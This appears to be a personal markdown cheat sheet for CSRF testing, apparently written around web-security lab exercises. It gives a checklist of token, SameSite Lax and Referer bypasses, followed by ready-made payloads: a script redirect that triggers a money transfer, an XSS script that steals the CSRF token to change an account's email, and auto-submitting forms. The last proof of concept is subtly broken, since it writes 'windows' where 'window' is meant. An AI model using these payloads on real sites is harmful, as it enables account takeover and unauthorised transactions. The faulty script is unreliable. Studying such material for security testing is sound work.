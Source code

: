 Should test on 'Chrome'
Payload generator: https://csrfshark.github.io/app/
- [ ] Session handling mechanism (token, csrf, JWT)
- [ ] Identify cookie protections (HTTPOnly, Secure, SameSite)
- [ ] Manipulate Referer, then attempt to remove it entirely
- [ ] Identify gadgets and interesting endpoints
### CSRF Token Bypasses
- [ ] Remove CSRF token entirely
- [ ] Changing method POST -> GET (remove csrf token)
- [ ] CSRF token of controlled account
- [ ] CSRF key + CSRF token of different account <- Gadget to set cookie required
- [ ] Double CSRF (just need to be the same) <- Gadget to set cookie required
### SameSite: Lax
- [ ] Method Override
- Lax: browser will send the cookie in cross-site request if:
    - The request uses GET
    - Request resulted from a **top-level navigation** by the user, such as clicking on link (cookie is not included in background requests such as those run by scripts, iframes…)

```html
// Top-level navigation and uses GET request (simplest CSRF) 

<script> 
document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
Method Override
```
https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000&_method=POST
```
- [ ] Chrome 120s window
### SameSite: Strict

### Referer Bypasses
- [ ] Referer header present
```html
<meta name="referrer" content="no-referrer">

<meta name="referrer" content="never">
```
- [ ] Referer url bypass

### XSS -> CSRF
Template of XSS payload
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
### Caveats
Form submission payload
- Sending a GET request before form submission
```html
<html> 
	<body> <!-- this is to send a GET request before form submission --> 
	<form action="https://vulnerable-website.com/email/change" method="POST">
		<input type="hidden" name="email" value="pwned@evil-user.net" />
	</form> 
	<img src=http://vulnerable-website.com/path onerror='document.forms[0].submit()'> 
	</body> 
</html>
```
Refresh token onclick (Chromium browser when SameSite not set, 120s time window)
```html
<!DOCTYPE html>
<html lang="en"> 
<body> 
<h1>Form CSRF PoC</h1> 
	<form method="POST" action="https://0a2400b603f490d68220296600b80036.web-security-academy.net/my-account/change-email"> 
		<input type="hidden" name="email" value="pwn@csrf.com"> 
		<input type="submit" value="Submit Request"> 
	</form> 
</body> 
<script> // This CSRF payload when user click on page: // - sends a request to refresh cookie endpoint // - wait for cookie refresh, then submit form (SameSite: Lax bypass) 
	windows.onclick = () => {
		windows.open('https://0a2400b603f490d68220296600b80036.web-security-academy.net/social-login'); 
		setTimeout(sendForm, 10000); 
	} 
	
	function sendForm() { 
		document.forms[0].submit(); 
	} 
</script> 
</html>
```


